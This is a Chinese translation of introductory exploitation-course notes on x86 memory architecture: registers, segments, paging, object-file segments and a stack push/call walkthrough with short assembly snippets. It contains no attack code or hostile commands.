# SANS 660.4 - 渗透测试人员的Linux利用实战


## 内存介绍

在本模块中，我们将浏览系统内存，为课程的其余部分奠定基础知识。请记住，我们将在每个练习和主题中讨论内存。

### 目标
- 本模块的目标是理解：
- 物理内存
- 虚拟内存
- 分页
- 基于堆栈的内存
- 基础 x86 汇编语言
- 链接器和加载器

本模块是课程其余部分的前提条件。重要的是不仅要概念性地理解处理器如何处理内存，还要准确理解每个组件的职责以及它们如何相互关联。

我们将浏览物理内存和虚拟内存、分页、基于堆栈的内存、链接器和加载器，以及 x86 汇编语言的一些基础知识。

### 物理内存
- 处理器寄存器
- 硬编码变量
- 最快
- 处理器缓存
- 数据缓存：L1 和 L2 缓存
- 指令缓存和 TLBs
- 从 RAM 预取数据
- 随机存取存储器（RAM）

物理内存由多个组件组成。我们专注于与处理器相关且与本课程最相关的部分。

#### 处理器寄存器

处理器寄存器在物理上集成到处理器中。您可以将它们视为硬编码变量。这种内存是处理器访问速度最快的，且存储容量有限。

在 x86 指令集架构中，这些通常被称为通用寄存器，尽管许多寄存器是为特定目的设计的，我们很快将介绍这些。

由于在撰写本文时这是最常用的架构，我们主要关注 Intel 32 位和 64 位架构（IA-32/IA-64）及其对 x86 指令集的使用。然而，大多数相同的原则也适用于其他基于 x86 的架构，例如 AMD Athlon。

#### 处理器缓存

处理器缓存被 CPU 用来快速访问内存中的必要指令和数据。从主存获取这些信息是一个慢得多的过程。处理器缓存可以作为处理器和主存之间的缓冲区，通过预取所需数据显著加快访问时间。

对于基于 x86 的处理器，您通常会看到 L1 缓存和 L2 缓存作为整体数据缓存的一部分。L1 缓存通常集成到处理器中，并提供最快的访问时间。L2 缓存也可以集成到处理器中或作为处理器的外围设备。某些处理器具有 L3 缓存及更高版本；然而，这些缓存的总体目的是获取和存储处理器所需的数据。

当您向 L1 缓存方向移动时，内存容量会减少以提高性能。L1 缓存根据需要从 L2 缓存获取立即需要和常用数据。

指令缓存获取可执行代码段的副本。


## 转换旁视缓冲区（TLB）
转换旁视缓冲区（TLB）用作常用内存页的缓存，这样便无需再进行虚拟内存到物理内存的转换过程。TLB通常会在上下文切换时被刷新；但内核TLB不应被刷新，以免造成性能损耗。

## 随机存取存储器
最常见的部件就是随机存取存储器（RAM）。RAM属于易失性存储器，其宿主设备断电时会丢失存储的信息。虽然系统断电后RAM中存储的数据不会立刻消失，但会逐渐衰减。RAM以集成电路组的形式物理存在于计算机中央处理器（CPU）附近。相较处理器寄存器和L1、L2缓存而言，CPU访问RAM通常是比较耗时的过程。多年来物理内存技术已经有了长足改进，值得花时间了解其底层原理。不同处理器架构的内存和缓存有所差异，此处仅做高层级概述。

## 处理器寄存器
- 通用寄存器 – 32位：
  - EAX、EBX、ECX、EDX、ESI、EDI、EBP、ESP
- 通用寄存器 – 64位：
  - R8–R15
- 段寄存器 – 16位：
  - CS、DS、SS、ES、FS、GS
  - 常用于引用内存位置
- FLAGS寄存器 – 数学运算相关：
  - 零标志位 | 负标志位 | 进位标志位 | 等其他标志位
- 指令指针（IP）
- 控制寄存器：
  - CR0–CR4
  - CR3存储页目录的起始地址

我们的重点主要放在32位应用上，因为它们占据了绝大部分市场份额。我们会在适当时讨论64位应用和处理器。大多数64位系统都支持某种传统模式（例如WOW64），可让32位应用正常运行。截至本文写作时，大多数第三方应用仍为32位系统开发。新版Windows系统主要在64位模式下运行，同时兼容32位应用。

### 通用寄存器
这类寄存器的主要用途是：对寄存器内存储的值、或寄存器中持有的指针指向的内存地址处的值执行算术运算。尽管这些寄存器也可用于执行其他操作，但设计时都设定了特定用途。x86 64位（x64）系统额外增加了8个通用寄存器R8-R15，这类附加寄存器除了其他用途外，还会用于快速系统调用。
> 64位系统中，寄存器名称里的“R”代表“寄存器”。

- **EAX/RAX**：累加器寄存器 – `imul 4, %eax`
  - 设计用作计算器
- **EDX/RDX**：数据寄存器 – `add %eax, %edx`
  - 与EAX配合执行计算
  - 输入/输出端口指针
- **ECX/RCX**：计数寄存器 – `mov 10, %ecx`
  - 常用于循环场景
- **EBX/RBX**：基址寄存器 – `inc %ebx`
  - 通用寄存器

32位通用寄存器的低16位可被独立访问。这低16位中的高8位和低8位也可分别通过ah/al、dh/dl、ch/cl、bh/bl独立访问。基于x86的32位处理器架构共有8个通用寄存器，x64系统则有16个通用寄存器。这些寄存器大多为执行特定功能而设计，但也可用于其他用途。在32位系统中，所有8个寄存器均为32位宽，即1个双字（DWORD）的大小。EAX、EDX、ECX和EBX的低16位（字）可分别被命名为AX、DX、CX和BX来访问。直接访问这些低位寄存器，要么是为了兼容旧款16位处理器，要么是为了直接访问寄存器中存储的特定数据段。AX、DX、CX和BX这四个寄存器各自由2个字节组成，也可通过AX对应的AH/AL、DX对应的DH/DL、CX对应的CH/CL、BX对应的BH/BL独立访问。“H”代表高8位字节，“L”代表低8位字节。这些标识可用于指定寻址偏移量，或辅助其他计算。若通过汇编指令直接访问，它们会被视为独立的寄存器。

#### 累加器寄存器（EAX/RAX）
累加器寄存器的设计定位是处理器的核心计算单元。所有寄存器都有能力执行这类运算，但设计上优先选用EAX/RAX执行此类操作，还有专门为其设计的操作码支持这类功能。

#### 数据寄存器（EDX/RDX）
数据寄存器可看作是最接近EAX/RAX的配套寄存器，EDX/RDX常用于需要更大空间的复杂计算，例如乘法运算中EAX通常需要更多存储空间，这类运算就会用到EDX。此外EDX还可用作输入/输出端口的寻址指针。

#### 计数寄存器（ECX/RCX）
计数寄存器最常用于循环和位移操作中，用于存储循环迭代次数。

#### 基址寄存器（EBX/RBX）
在16位架构中，EBX/RBX寄存器主要用作指针，用于修改处理器执行指令的内存偏移量。在32位和64位模式下，EBX/RBX更偏向于无特定用途的真正通用寄存器。该寄存器常用于存储指向数据段（DS）的指针，也常被用作额外存储空间，存放部分计算结果。和所有寄存器一样，寄存器的具体用法由程序员、编译器和整体系统架构决定。

### 16位段寄存器
段寄存器的主要用途是：在使用带线性寻址的受保护模式内存管理时，维护虚拟内存中特定段的位置。每个16位寄存器可存储一个段的位置，例如CS寄存器存储的就是代码段（CS）的位置。处理器可通过该寄存器获知代码段在内存中的位置，并据此访问偏移量。由于段寄存器仅16位宽，因此只能引用给定进程加载地址的偏移量。64位系统中不需要分段机制，但FS这类寄存器在指向Windows结构数据时仍有重要作用，我们稍后会详细介绍。

### FLAGS寄存器
FLAGS寄存器用于存储数学运算的状态以及处理器的整体状态。不同处理器对标志位的使用和含义定义存在差异。其中比较常见的标志位有“零标志位”，当运算结果为零时该标志位会被置位；“负标志位”，当数学运算结果为负数时该标志位会被置位；“进位标志位”等。FLAGS寄存器的另一个用途是处理处理器中断请求：如果中断标志位被置位，处理器就会知道收到了中断请求。部分处理器一次只能处理一个中断，也有些处理器可以同时处理多个中断。

### 指令指针
指令指针（IP）是存储下一条待执行指令内存地址的寄存器。IP会按顺序指向代码段中的指令，直到遇到跳转（JMP）、调用（CALL）或其他指令，此时指针会跳转到内存中的新位置。在x86 64位系统中，指令指针称为RIP，32位系统中则称为EIP。

### 控制寄存器
英特尔32位处理器共有5个控制寄存器，即CR0-CR4，其中最重要的是CR3，它存储页目录的起始地址。我们稍后会讨论分页机制，现在只需记住：页表会从这个位置开始，实现物理地址到线性地址的映射。64位处理器架构还有额外的控制寄存器，但这些寄存器和漏洞开发无关。


## 通用寄存器（2）
- **ESI/RSI**：源索引寄存器
  - 在字符串操作和循环中用作读取位置的指针
  - 示例指令：`repz cmpsb %es:(%edi),%ds:(%esi)`
- **EDI/RDI**：目标索引寄存器
  - 在字符串操作和循环中用作写入位置的指针
- **ESP/RSP**：栈指针
  - 示例指令：`movl %esp,%ebp`
  - 用于保存栈顶的地址
  - 数据被复制到栈或从栈移除时地址会发生变化
- **EBP**：基指针
  - **RBP**（64位对应寄存器）通常用作通用寄存器
  - 作为栈帧的锚点，用于引用局部变量

### 源索引（ESI/RSI）
源索引寄存器通常在字符串操作或循环中用作读取位置的指针。例如，当进行字符串比较时，ESI/RSI 寄存器会指向被比较的两个字符串中其中一个所在的存储地址。随着课程推进，这个示例会更加清晰。

### 目标索引（EDI/RDI）
目标索引寄存器通常在字符串操作或循环中用作写入位置的指针。结合之前提到的 ESI/RSI 寄存器示例，EDI/RDI 可作为指针，指向另一个被比较字符串所在的地址，也可用于存储循环操作结果得到的值。

### 栈指针（ESP/RSP）
栈指针寄存器几乎仅用于一个目的：维护栈顶的地址。当程序中调用函数时，调用指令的下一条指令地址会被压入栈中，作为返回指针，用于被调用函数执行完成后恢复指令指针。在32位进程中，EBP 寄存器中保存的地址随后会被压入栈中，以便函数执行完成后恢复 EBP，这通常被称为已保存帧指针（SFP）。随后，ESP 寄存器保存的地址会被移动到 EBP 寄存器中。此时，EBP 与 ESP 持有相同的地址，均指向已保存帧指针（SFP）。若要在栈上分配内存存储数据，需将缓冲区的大小（以字节为单位）从 ESP 保存的地址中减去。此时 ESP 保存的地址会显示分配空间后的更新位置。我们稍后会详细讨论过程序言。

### 扩展基指针（EBP）
EBP 用于引用栈上的变量，比如传递给被调用函数的参数。如前所述，返回地址和已保存帧指针（SFP）被压入栈中后，ESP 会将自己的地址复制到 EBP 中。这为 EBP 提供了一个在栈帧生命周期内保持静态的锚点。在函数调用的整个过程中，EBP 始终指向已保存帧指针（SFP）。而64位对应的 RBP 寄存器并不总是用于该目的，它通常作为通用寄存器使用。原因是64位处理器拥有16个通用寄存器，而32位处理器仅有8个，因此参数会通过寄存器传递，不再需要在栈上保留基指针，不过这取决于编译器的设置。

## 通用寄存器（3）
| 寄存器 | 32位组件 | 高8位 | 低8位/16位 |
|----------|------------------|-----------|-------------------|
| EAX | | AH | AX / AL |
| ECX | | CH | CX / CL |
| EDX | | DH | DX / DL |
| EBX | | BH | BX / BL |
| ESI | | | |
| EDI | | | |
| EBP | | | |
| ESP | | | |

| 寄存器 | 说明 |
|----------|-------------|
| CS | 代码段 |
| DS | 数据段 |
| SS | 栈段 |
| ES | 附加段 |
| FS | 数据段 |
| GS | 数据段 |

| 寄存器 | 16位 | 32位 |
|----------|--------|---------|
| EIP | IP | EIP |
| EFLAGS | FLAGS | EFLAGS |

> 64位寄存器也支持访问32位及更小位宽的寄存器。例如：RAX、EAX、AX、AH、AL
该图展示了 x86 32位与16位寄存器的布局。左上角的寄存器块为32位通用寄存器，右上角的寄存器块为16位段寄存器，底部为32位扩展指令指针（EIP）和 EFLAGS 寄存器。运行64位应用程序时，仍可访问上述32位及更小位宽的寄存器（例如 RAX、EAX、AX、AH 和 AL）。但 ESI/RSI、EDI/RDI、EBP/RBP 和 ESP/RSP 不支持访问16位及更低位的组成部分。

## 段寄存器（1）
- 段寄存器功能与类型：*类UNIX系统* 与 Windows 系统的使用差异
- 段选择子与描述符：16位值，包含三个部分：
  - 索引：13位字段，是全局描述符表（GDT）中描述符的偏移量
  - 表指示符
  - 请求特权级
- 全局描述符表与局部描述符表：GDTR 与 LDTR 保存基地址

如前所述，段寄存器通常用于维护虚拟内存中特定段的位置。其中部分寄存器功能更具体，另一些则是通用寄存器，可用于维护不同段中的多个位置。在Windows系统的各个版本中，甚至更通用的段寄存器也常有稳定的使用方式，在进行安全研究时非常实用。多数情况下，程序的设计默认某个段选择子已被加载到段寄存器中。64位系统几乎或完全不需要由段寄存器维护的内存分段。段寄存器的可见部分称为段选择子，这是一个由三部分组成的16位值，包括索引、表指示符和请求特权级。索引部分是13位的值，实际上是全局描述符表（GDT）或局部描述符表（LDT）中段描述符的偏移量。索引部分会乘以8，然后将结果加上GDT寄存器（GDTR）或LDT寄存器（LDTR）中描述符表的基地址。段描述符是不可见的部分，包含获取完整线性地址所需的其他信息。表指示符用于标识段描述符存储在局部描述符表还是全局描述符表中。最后，请求特权级保存数据访问的特权等级，数值越低，特权等级越高。

> ***驻留在段描述符表中的段描述符保存了其他必要信息。最重要的是，段描述符中包含所需的32位基地址。段描述符还包含段大小信息，最大可达4GB，以及处理器的访问权限。段描述符表仅用于存储段描述符。***

## 段寄存器（2）
- **CS**：代码段
- **SS**：栈段
- **DS**：数据段
- **ES**：附加段
- **FS**：附加数据段，在Windows系统中有显著用途
- **GS**：附加数据段

### 代码段
代码段（CS）保存目标文件的可执行指令。CS 也被称为文本段。由于 CS 具备读与执行权限，但无写权限，因此程序的多个实例可同时运行。代码段寄存器通常指向一个偏移量，该偏移量保存了对应进程可执行代码的起始地址。

### 栈段
栈段（SS）寄存器维护过程栈的位置。具体来说，SS 寄存器通常指向内存中栈上的一个偏移地址，而栈指针（ESP/RSP）指向当前正在使用的栈帧的顶部。

### 数据段
有四个段寄存器可用于指向不同的数据段，分别是数据段（DS）、附加段（ES）、FS 和 GS。FS 与 GS 起源于 IA-32 架构，其命名仅基于字母顺序准则。这四个段寄存器指向不同的数据结构，为数据访问提供了控制力与分段能力。例如，一个数据结构可能是当前对象，而另一个可能指向动态创建的堆。如果程序需要访问当前未加载到段寄存器中的数据段，则必须加载所需的段选择子。在Windows进程中，FS 用于指向线程信息块（TIB）。GS 通常用作线程本地存储（TLS）的指针，用于例如安全Cookie验证等场景。


## 内存模型
- 实模式
  - 为保持向后兼容性而保留
  - 功能集受限
  - 64位系统仍以此模式启动
- 保护模式
  - 支持最高4GB及以上的虚拟内存
  - 可访问任意内存模式
- x64系统的长模式
### 实模式
启动时，处理器会以实模式运行。这么设计是为了兼容旧架构，保持向后兼容性。实模式可以切换至其他模式（例如保护模式），也可以从其他模式切回实模式。实模式仅提供有限的功能集，比如地址空间存在限制。实模式也可以和平面内存模式搭配使用，以支持更大的内存空间，最高可达4GB。平面内存模式本身要求物理内存地址之间存在一对一的映射关系。
### 保护模式
保护模式支持最多4GB的地址空间，同时支持虚拟内存和分页机制，我们稍后会讲解分页相关内容。内存段之间相互隔离，提供了额外的控制能力。从实模式切换到保护模式需要经过一系列步骤。其中比较关键的步骤包括创建全局描述符表、加载栈段信息以及其他段寄存器的内容。几乎所有现代32位操作系统都在保护模式下运行。
### 长模式
长模式是64位系统使用的内存模型，用于识别64位处理器，同时支持32位系统的模拟运行。
## 虚拟内存
- 物理内存
  - IA-32架构默认支持4GB物理寻址
  - 物理地址扩展（PAE）最高可支持64GB
  - 64位系统支持更大的内存容量，但不会使用全部64位来做内存寻址，因为没有这个必要
- 虚拟/线性寻址
  - 32位系统支持4GB虚拟地址空间
  - 在64位处理器上运行的64位应用，用户态和内核态各自可分配7-8TB的地址空间！
### 物理内存
在保护模式下，32位英特尔处理器在使用扩展功能时，最高可支持64GB的物理地址空间。部分处理器不支持上述扩展功能。需要注意的是，32位处理器的寄存器位宽为32位，最大支持的数值为2^32。如果不使用分页机制，处理器管理的线性地址空间与物理地址会直接形成一对一的映射关系。64位处理器的情况略有不同，其物理内存上限受多种因素影响。普遍说法是最高支持1TB物理内存，但操作系统和其他硬件组件很可能会限制实际支持的物理内存上限。
### 虚拟/线性寻址
在32位保护模式下，处理器会为每个进程分配4GB的虚拟/线性寻址空间。当物理内存资源不足时，线性寻址主要用于扩展系统和应用的内存能力。如果所需内存超过物理内存容量，或者不想使用平面内存模型，处理器可以通过分页机制提供虚拟内存。虚拟内存配合分页机制使用时，32位应用无论在32位还是64位处理器上运行，都可以拥有独立的4GB地址空间。该地址空间会被划分为内核部分和用户态应用部分。这对安全研究非常重要：如果程序未开启地址空间布局随机化（ASLR），其代码段中的特定函数往往会固定在相同的地址上。在64位处理器上运行的64位应用，用户态和内核态各自可分配7-8TB的地址空间。
## 分页
- 什么是分页？
  - 实现间接内存映射的流程
  - 线性寻址会被划分为固定大小的页：
    - 最常见的是4KB
    - 页会被映射到页表中，每个页表最多包含1024个条目
    - 页表会被映射到页目录中
    - 每个页目录最多可容纳1024个页表
    - 线性地址会映射到页目录、页表和页偏移三个部分
    - 转换后备缓冲区（TLB）会缓存常用的页表和条目
  - 上下文切换与进程控制块（PCB）：
    - 每个进程的寄存器值会被存储在PCB中，在上下文切换时加载
### 分页
我们先看一个简单示例。如果你使用的x86架构处理器支持最高4GB线性寻址，且物理内存也为4GB，理论上可以实现一对一映射。但系统中始终会同时运行多个进程，每个进程都拥有独立的4GB虚拟内存，因此一对一映射是不可能实现的。如果在程序运行时发现某个程序的代码段始终映射到完全相同的地址布局，说明系统使用了配合虚拟内存的分页机制。接下来我们深入了解这个概念。
分页机制会将线性地址空间划分为多个页。这些页通常按4KB大小划分，不过也可以划分为更大的页，比如2MB或4MB。本次讲解我们以最常用的4KB页为例。这些页会被映射到相同大小的物理内存上，对应的映射条目会存储在页表中。每个页表最多可支持1024个页条目。随后多个页表会被组合成页目录。每个页目录最多可容纳1024个页表。线性地址会被用来转换为物理地址。线性地址的第一部分会用于映射到页目录中的特定条目。该条目会给出目标页表的位置。线性地址的下一部分会用于选择正确的页表条目，该条目会给出目标物理页的地址。线性地址的最后一部分会提供页内的偏移量，最终得到完整的32位物理地址。
如前所述，使用虚拟内存配合分页机制时，每个进程或程序都可以拥有独立的4GB地址空间。这种情况下每个程序都有独立的页目录结构，用于映射回物理地址，我们之前也提到过。通常情况下不会使用分段机制，而是会看到虚拟内存配合分页机制使用。需要注意的一点是，通常虚拟内存中较高的2GB会被保留给内核使用。如果配置不同，也可能是较低的一半，无论如何，2GB会分配给进程或任务，另外2GB分配给内核服务。部分操作系统中你可能也会看到只给内核保留1GB的情况。请务必查看你所研究的每个系统的地址空间使用方式。在大多数版本的Windows系统中，0x00000000到0x7FFFFFFF的地址范围会被分配给进程，0x80000000到0xFFFFFFFF的地址范围会被分配给内核服务。这些范围中的部分地址是无法访问的。
这较高的2GB虚拟内存非常重要，因为内核和进程需要的服务必须相对于进程映射到内存中。也就是说系统中运行的每个进程或程序的内存空间都会映射这些内核服务。这些虚拟内存地址在每个进程内通常是固定的。内核实际上是一个巨大的共享内存区域，通常被称为内核池。内核池分为多种类型，比如可分页池和非分页池。那么如果每个进程都拥有独立的2GB地址空间，进程之间必然存在重叠区域，对吗？没错！你经常会发现多个应用会被加载到相同的内存地址上。哪怕是同一个应用的多个实例，也会被加载到看似相同的内存区域。请记住每个进程都是通过页表映射到物理内存的，这使得它们可以使用相同的地址，同时保持独立性。如果允许多个进程同时使用相同地址，处理器必须要有办法知道当前正在处理哪个任务。这是通过进程控制块（PCB）和上下文切换机制实现的。处理器会通过时间片轮转的方式在进程之间切换。根据优先级和其他因素，每个进程会被分配一定数量的时间片。在两个进程之间进行上下文切换时，进程ID（PID）、分配给进程的地址空间等重要信息必须被加载到内存和寄存器中。每次进程上下文切换时，寄存器的状态会被写入对应进程的PCB中。PCB通常会存储一个指向下一个待切换进程的指针。进程上下文切换的开销很大，因为需要刷新TLB、保存状态，还要执行其他操作。线程上下文切换是指单个进程内多个线程之间的切换操作。这项操作的开销比进程上下文切换小很多。
最后再补充一点关于分页的内容：转换后备缓冲区（TLB）的使用。处理器会缓存最近使用的页表和条目。这和所有其他缓存的用途一样：减少处理器访问常用内存页所需的时间和资源消耗。


## 分页与交换
- 长期未被访问的页面会被复制到磁盘
- 页错误：当系统尝试访问已被分页到磁盘的内存地址时触发，处理过程相对耗时
- 交换整个进程
- Windows内存优化：将未使用的内存页面换出到磁盘

当系统可用内存耗尽时，就会执行分页操作。此时系统会将长期未被访问的页面复制到硬盘上预留的交换空间区域，以此释放有限的内存资源，让这些资源可以承载更多数据。如果后续系统要访问某块内存地址上原本存在、但已被分页到磁盘的数据，就会触发页错误。此时相关数据会被重新加载到内存中，供系统访问。操作系统会尽量降低页错误的发生次数，因为从处理器视角来看，处理页错误非常耗时。

人们常将分页和交换这两个术语混用，但二者实际上存在差异。从历史来看，交换是早期内存资源匮乏的系统上使用的术语，当时处理器会将正在运行的进程整体从内存中移出到硬盘，为其他程序腾出运行空间。

部分操作系统对分页和交换的实现方式略有不同。Windows默认会对每个进程采用分页机制，以更好地管理系统资源。程序通常会申请远大于实际需求的内存段，此时Windows会将该进程的一部分页面换出到磁盘，直到这些数据被需要时再加载，这种方式让物理内存资源的利用率进一步提升。Windows还会尝试预测进程的内存中哪些部分可能不再被使用，这些内存区域会被换出到物理内存，在需要时再重新加载。现代操作系统很少会交换整个进程，通常只会把固定大小的内存页面写入硬盘的交换空间，直到这些页面被需要时再调回。

## 对象文件
- 代码段：存储程序代码的固定大小段
- 数据段：存储已初始化变量的固定大小段
- BSS段：存储未初始化变量的固定大小段
- 堆：用于动态分配或大容量内存请求的段
- 栈段：进程的过程调用栈

当程序员使用C/C++等高级语言编写程序时，会通过编译器将源代码转换为称为目标代码的格式。目标代码是程序的二进制机器码表现形式。对象文件可由多个组件构成，包括编译后的二进制程序数据、符号表、重定位信息及其他元素。加载器和链接器会使用这些组件执行运行时操作、符号解析等任务。

我们稍后会详细介绍链接器和加载器，现在你只需要知道：链接器负责解析系统库中目标函数的位置；加载器的作用是将对象文件加载到指定的加载地址的内存中，同时映射各个内存段。

程序运行时，多个内存段会被映射并创建在内存中，核心段包括代码段、栈段、数据段、堆以及符号开始的块（BSS）。接下来我们会逐一介绍这些段，为后续内容打下基础。对象文件中还存在其他段，我们会在合适的时候讨论。

> 注意：不同的操作系统和编译器的行为存在差异。某一种操作系统或编译器以一种方式创建的内容，在另一种环境下可能完全不同。本课程的多数示例将以C语言和GNU GCC编译器为参考。

### 代码段
代码段（CS）和数据段、BSS段一样属于固定大小段，无法向这些段分配空间，否则可能影响程序的正常运行。代码段被设置为仅拥有读、执行权限，没有写权限，因为它存储的是编译器解析后的程序指令。

### 数据段
数据段（DS）存储已初始化的全局变量，即程序员显式定义的变量（例如`int x = 1;`）。段寄存器DS、ES、FS、GS可以分别映射到内存的不同区域。例如在Windows系统中，线程信息块（TIB）内的FS:[0x00]地址存储了结构化异常处理（SEH）链的指针，FS:[0x30]地址存储了进程环境块（PEB）的指针。我们会在后续课程中说明这类存储位置的作用。数据段不可执行。

### 符号开始的块（BSS）
BSS段存储未初始化的全局变量（例如`int x;`）。这类变量有的可能永远不会被定义，有的会在特定函数被调用时完成定义。换句话说，运行时值为0的变量都可能被存放在BSS段中。如果编译器判定这些未初始化变量属于未被使用的死代码块，就不会把它们存入BSS段。我们之后会展示一些程序初始化时该段在内存中的映射示例。

### 堆
堆是比栈动态得多的内存区域。带有预定义缓冲区的短小有限操作通常适合放在栈中；但需要分配大内存来存储用户数据或运行功能丰富的内容的应用，会大量使用堆。同时打开多个Word文档的用户，其文档数据会存储在堆中，或是作为文件映射的一部分。堆的设计会邻接大块未使用的内存段，支持其扩展而不会与其他内存段冲突。我们之后会详细介绍堆的机制，以及它在Linux和Windows系统上的工作原理。

### 栈段
进行函数调用时会使用栈段。函数调用前进程的状态会通过一系列称为过程序言的短操作压入栈中，其中包含一个称为返回指针的指针，它能让调用函数在被调用函数执行完成后重新获得控制权。经常会进行嵌套函数调用，这会导致栈扩展。每个函数都会在栈上拥有自己的栈帧。当嵌套函数按相反顺序依次返回时，就会执行被称为栈展开的操作。栈通常存储与函数调用相关的有限内存分配，以及传递给被调用函数的参数。许多函数会通过EAX/RAX寄存器以及其他寄存器和内存位置，将返回值传回调用方。



## 栈操作——数据移动
现在我们讲解常规栈操作，演示栈帧的构建过程。在这张幻灯片中展示了多个内容：左侧区域标注为「代码段」，是程序中可执行代码在内存中的存储位置。你可以看到两个函数：main()和func_x()，每个函数都有唯一的入口点。调用函数时，会从对应函数的入口点起始位置开始执行。

标注为IP的标记是处理器的指令指针，根据处理器是32位还是64位，对应为EIP或RIP。当前IP指向内存地址0x8048202，该地址存储的指令是mov %eax, %edi。mov指令的作用很简单，就是将源数据复制到操作数指定的目标位置。在本例中，EAX寄存器的内容会被复制到EDI寄存器。这里使用的是AT&T汇编语法，我们稍后会讲解汇编语法。

右下角是标注为「栈」的区域，也就是该进程的过程调用栈。本例中栈起始于高内存地址，向低内存地址方向扩展，这可能和你预期的方向相反。栈和堆的扩展方向彼此相对，但在内存中二者相距很远，这是为了防止二者发生冲突。由于堆从低内存地址向高内存地址扩展，因此栈从高内存地址向低内存地址扩展是合理的设计。

如前所述，栈使用两个特殊指针：栈指针始终指向当前栈帧的顶部；在32位应用中，基址指针始终指向已保存的帧指针（SFP）位置。SFP会在函数收尾阶段恢复基址指针，我们稍后会介绍这部分内容。执行当前指令时，栈的状态没有发生变化。


## 栈操作 – 压栈指令

> EDI寄存器的内容被压入栈中，ESP寄存器值相应调整，很可能是即将调用的func_x函数的参数。
``` 0x8048202: mov %eax, %edi 0x8048204: push %edi 0x8048205: call func_x 0x8048207: xor eax, eax ... # truncated for space ... ```
``` 0x8048801: push %ebp 0x8048802: mov %esp, %ebp 0x8048804: sub 0x20, %esp ... # func_x code to execute ... 0x8048903: mov %ebp, %esp 0x8048905: pop %ebp 0x8048906: ret ```
## 栈操作 – 压栈指令
在本页幻灯片中，指令指针（IP）向下移动了一个位置，从内存地址0x8048202来到0x8048204。不同架构下执行的指令长度可能不同：部分指令仅占1字节，执行后指令指针仅增加1指向下一指令；而部分指令长度为2、3、4甚至更多字节，执行后指令指针会向前跳转数个字节。需要注意幻灯片中展示的指令长度与地址间距可能与实际汇编代码不完全一致，此处仅为示例说明。如前所述，当前指令指针指向内存地址0x8048204，该地址存储的指令为`push %edi`。push指令会将指定值以DWORD（双字）或QWORD（四字，取决于架构）的形式压入栈指针当前指向位置的上方区域。观察幻灯片中的栈示意图可以看到，当前ESP寄存器的指向位置比之前更高（更远离栈顶）。这是由`push %edi`指令将EDI寄存器的内容压入栈中所导致的，被压入栈的这个值很可能是即将调用的func_x函数的参数。
